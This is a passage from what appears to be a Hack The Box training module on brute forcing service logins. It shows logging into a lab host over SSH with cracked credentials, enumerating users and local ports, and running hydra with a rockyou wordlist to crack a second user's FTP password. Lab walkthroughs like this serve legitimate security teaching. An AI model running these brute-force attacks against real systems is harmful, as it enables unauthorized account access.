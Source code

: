 We see that it takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

&#x20; Service Authentication Brute Forcing

```shell-session
AbdulrahmanTamim@htb[/htb]$ ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```

As we can see, we can `SSH` in, and get a shell on the server.

***

### FTP Brute Forcing

Once we are in, we can check out what other users are on the system:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

Note 1: Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

Note 2: "rockyou-10.txt" can be found in "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", which contains 92 passwords in total. This is a shorter version of "rockyou.txt" which includes 14,344,391 passwords.

So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:

&#x20; Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```